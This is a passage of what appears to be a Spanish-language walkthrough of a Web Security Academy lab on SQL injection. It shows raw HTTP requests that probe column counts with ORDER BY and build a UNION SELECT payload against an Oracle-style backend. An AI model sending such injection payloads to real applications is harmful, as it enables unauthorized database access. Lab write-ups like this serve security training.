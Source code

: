 Y finalizamos validando con el numero 3:

```
GET /filter?category='+order+by+3-- HTTP/2
Host: 0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net
Cookie: session=4r7p479MteGfJHw186eSSaLBr06RDplw
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Pero obtenemos un error:

```
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2391

```

Teniendo en cuenta los resultados previos podemos afimar que podemos utilizar 2 campos para retornar data con las inyecciones.

Se procede a identificar el tipo de campo por cada columna:

```
GET /filter?category='+UNION+SELECT+NULL,NULL+FROM+dual-- HTTP/2
Host: 0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net
Cookie: session=4r7p479MteGfJHw186eSSaLBr06RDplw
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```
